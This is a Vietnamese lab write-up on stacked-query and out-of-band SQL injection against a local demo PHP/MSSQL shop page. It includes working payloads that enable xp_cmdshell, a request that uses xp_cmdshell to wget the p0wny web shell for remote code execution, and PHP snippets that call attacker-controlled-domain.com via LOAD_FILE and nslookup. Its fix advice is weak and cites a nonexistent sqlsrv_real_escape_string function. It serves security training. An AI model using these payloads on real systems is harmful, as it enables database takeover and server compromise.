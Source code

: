 

## Về dạng này em dùng source của bài StackQuery ạ nhưng mà với một hướng đi khác là em sẽ wget 1 shell về để RCE ạ
## Còn một hướng khác nữa là em sẽ dùng LOAD_FILE để lấy file php độc hại về sever hoặc là em sẽ dùng cách truyền đầu ra đến máy của kẻ nghe lén ạ

# Link demo : 
# Cách khắc phục :

- Hoặc làm sạch đầu vào   $cleaned_username = sqlsrv_real_escape_string($conn, $name);
$cleaned_password = mysqli_real_escape_string($conn, $password);
- Và tìm hiểu các CVE của các phiên bản để tránh được lỗi này có thể xảy ra.


+ Bắt đầu vào với một giao diện như trên
![Alt text](./imageStackQuery/image.png)

- Đây là đoạn code bị dính lỗi

<?php
require_once "../config/connectMssql.php";

if (isset($_GET['name'])) {
    global $conn;
    $name = $_GET['name'];
    $tsql = "SELECT * FROM $name";

    $stmt = sqlsrv_query($conn, $tsql);
    if( $stmt === false )
    {
        echo "Lỗi truy vấn.</br>";
        die( print_r( sqlsrv_errors(), true));
    }

    if ($stmt) {
           while( $row = sqlsrv_fetch_array($stmt, SQLSRV_FETCH_ASSOC) ){
            echo '
                <div class="mt-56 bg-white rounded shadow dark:bg-gray-700">
                    <div class="relative z-20 p-6 group">
                        <div class="relative block h-64 mb-4 -mt-56 overflow-hidden rounded -top-full ">
                            <img class="object-cover w-full h-full transition-all group-hover:scale-110"
                                
                                 
                        src="https://pplay.vn/media/catalog/product/cache/1/image/485x440/9df78eab33525d08d6e5fb8d27136e95/7/0/70222-1.jpg" alt="">
                            <div class="absolute flex flex-col top-4 right-4">
                                <!-- Wishlist and Cart buttons here -->
                            </div>
                        </div>
                        <a href="#">
                            <h2 class="mb-2 text-xl font-bold text-black dark:text-white">
                                ' . $row['name'] . '
                            </h2>
                        </a>
                        <p class="mb-3 text-lg font-bold text-blue-500 dark:text-blue-300 ">
                            <span>$' . $row['sale'] . '.00</span>
                            <span class="text-xs font-semibold text-gray-400 line-through ">$' . $row['price'] . '.00</span>
                        </p>
                        <div class="flex gap-1 text-orange-400">
               <svg xmlns="http://www.w3.org/2000/svg" width="16" height="16" fill="currentColor"
                   class="bi bi-star-fill" viewBox="0 0 16 16">
                   <path
                       d="M3.612 15.443c-.386.198-.824-.149-.746-.592l.83-4.73L.173 6.765c-.329-.314-.158-.888.283-.95l4.898-.696L7.538.792c.197-.39.73-.39.927 0l2.184 4.327 4.898.696c.441.062.612.636.282.95l-3.522 3.356.83 4.73c.078.443-.36.79-.746.592L8 13.187l-4.389 2.256z" />
               </svg>
               <svg xmlns="http://www.w3.org/2000/svg" width="16" height="16" fill="currentColor"
                   class="bi bi-star-fill" viewBox="0 0 16 16">
                   <path
                       d="M3.612 15.443c-.386.198-.824-.149-.746-.592l.83-4.73L.173 6.765c-.329-.314-.158-.888.283-.95l4.898-.696L7.538.792c.197-.39.73-.39.927 0l2.184 4.327 4.898.696c.441.062.612.636.282.95l-3.522 3.356.83 4.73c.078.443-.36.79-.746.592L8 13.187l-4.389 2.256z" />
               </svg>
               <svg xmlns="http://www.w3.org/2000/svg" width="16" height="16" fill="currentColor"
                   class="bi bi-star-fill" viewBox="0 0 16 16">
                   <path
                       d="M3.612 15.443c-.386.198-.824-.149-.746-.592l.83-4.73L.173 6.765c-.329-.314-.158-.888.283-.95l4.898-.696L7.538.792c.197-.39.73-.39.927 0l2.184 4.327 4.898.696c.441.062.612.636.282.95l-3.522 3.356.83 4.73c.078.443-.36.79-.746.592L8 13.187l-4.389 2.256z" />
               </svg>
               <svg xmlns="http://www.w3.org/2000/svg" width="16" height="16" fill="currentColor"
                   class="bi bi-star-fill" viewBox="0 0 16 16">
                   <path
                       d="M3.612 15.443c-.386.198-.824-.149-.746-.592l.83-4.73L.173 6.765c-.329-.314-.158-.888.283-.95l4.898-.696L7.538.792c.197-.39.73-.39.927 0l2.184 4.327 4.898.696c.441.062.612.636.282.95l-3.522 3.356.83 4.73c.078.443-.36.79-.746.592L8 13.187l-4.389 2.256z" />
               </svg>
               <svg xmlns="http://www.w3.org/2000/svg" width="16" height="16" fill="currentColor"
                   class="bi bi-star" viewBox="0 0 16 16">
                   <path
                       d="M2.866 14.85c-.078.444.36.791.746.593l4.39-2.256 4.389 2.256c.386.198.824-.149.746-.592l-.83-4.73 3.522-3.356c.33-.314.16-.888-.282-.95l-4.898-.696L8.465.792a.513.513 0 0 0-.927 0L5.354 5.12l-4.898.696c-.441.062-.612.636-.283.95l3.523 3.356-.83 4.73zm4.905-2.767-3.686 1.894.694-3.957a.565.565 0 0 0-.163-.505L1.71 6.745l4.052-.576a.525.525 0 0 0 .393-.288L8 2.223l1.847 3.658a.525.525 0 0 0 .393.288l4.052.575-2.906 2.77a.565.565 0 0 0-.163.506l.694 3.957-3.686-1.894a.503.503 0 0 0-.461 0z" />
               </svg>
           </div>
                    </div>
                    
                </div>
            ';
        }
    } else {
        echo '<p class="font-bold text-center mt-48 text-xl">Invalid name or your hack me!!!</p>';
    }
    sqlsrv_free_stmt( $stmt);
    sqlsrv_close( $conn);
}
?>



<?php


//     $tsql = "SELECT sale FROM items; WAITFOR DELAY '0:0:10'";
    
//     $stmt = sqlsrv_query($conn, $tsql);
//     if( $stmt === false )
//     {
//         echo "Lỗi truy vấn.</br>";
//         die( print_r( sqlsrv_errors(), true));
//     }

//     $rows = [];
//     while( $row = sqlsrv_fetch_array($stmt, SQLSRV_FETCH_ASSOC) )
//     {
//         $rows[] = $row;
//     }
//     print_r($rows);

//     sqlsrv_free_stmt( $stmt);
//     sqlsrv_close( $conn);
?>

- Có vẻ như là trang web này lấy giá trị param name và cho vào trong câu truy vấn
                                        $tsql = "SELECT * FROM $name";
- Bởi vì được truyền trực tiếp nên em có thể đoán là bị dính lỗi sql injection
- Em sẽ khai thác theo hướng thực thi shell trong MSSQL đây là một dạng stack query
- Vào trong burpsuite và chọn request bị dính lỗi như sau:
![Alt text](./imageStackQuery/image-1.png)

- Em thử thêm dấu ';' vào đằng sau và request vẫn thực hiện bình thường
![Alt text](./imageStackQuery/image-2.png)
- Sau đó em dùng payload "; WAITFOR DELAY '0:0:5'; -- "
- Em nhận lại được response sau 5s
![Alt text](./imageStackQuery/image-3.png)
- Điều này chứng tỏ là em có thể thực hiện chồng query ở trong trường hợp này
- Em muốn thực hiện được xp_cmdshell trong truy vấn để lấy dữ liệu
+ Ban đầu em sẽ phải cài đặt lại setting để có thể thực hiện shell

em tham khảo bài viết này:  https://medium.com/@notsoshant/a-not-so-blind-rce-with-sql-injection-13838026331e
Và dùng payload :  ";EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE; WAITFOR DELAY '0:0:5'; --"

- Và em nhận được kết quả sau 5s  chứng tỏ là đã reconfig thành công
![Alt text](./imageStackQuery/image-4.png)

## Đến đoạn này em thử
wget https://github.com/flozz/p0wny-shell/blob/master/shell.php
Đây là shell em hay dùng:v

-  http://localhost/task2_KCSC/demo/stackQuery/index.php?name=items;EXEC%20xp_cmdshell%20%27wget+https://github.com/flozz/p0wny-shell/blob/master/shell.php%27;%20WAITFOR%20DELAY%20%270:0:5%27;%20--%20%22

![Alt text](./imagesOOB/image.png)

-- Sau đó em tải được file shell.php và bật nó lên để RCE ạ:<



### Một số hướng khai thác khác

<?php

$servername = "your_server";
$username = "your_username";
$password = "your_password";
$dbname = "your_database";

$conn = new mysqli($servername, $username, $password, $dbname);


if ($conn->connect_error) {
    die("Kết nối thất bại: " . $conn->connect_error);
}


$user_input = $_GET['query'];


$sql = "SELECT * FROM your_table WHERE column_name = '$user_input'";


$payload = "'; SELECT LOAD_FILE('http://attacker-controlled-domain.com/evil.txt')--";
$sql_out_of_band = "SELECT * FROM your_table WHERE column_name = '$user_input$payload'";

$result = $conn->query($sql_out_of_band);


if ($result->num_rows > 0) {
    
    while ($row = $result->fetch_assoc()) {
     
    }
} else {
  
}


$conn->close();
?>

<?php

$servername = "your_server";
$username = "your_username";
$password = "your_password";
$dbname = "your_database";

$conn = new mysqli($servername, $username, $password, $dbname);


if ($conn->connect_error) {
    die("Kết nối thất bại: " . $conn->connect_error);
}


$user_input = $_GET['query'];


$sql = "SELECT * FROM your_table WHERE column_name = '$user_input'";


$payload = "'; EXEC xp_cmdshell('nslookup attacker-controlled-domain.com')--";
$sql_out_of_band = "SELECT * FROM your_table WHERE column_name = '$user_input$payload'";

$result = $conn->query($sql_out_of_band);


if ($result->num_rows > 0) {
    
    while ($row = $result->fetch_assoc()) {
       
    }
} else {
    
}

// Đóng kết nối
$conn->close();
?>
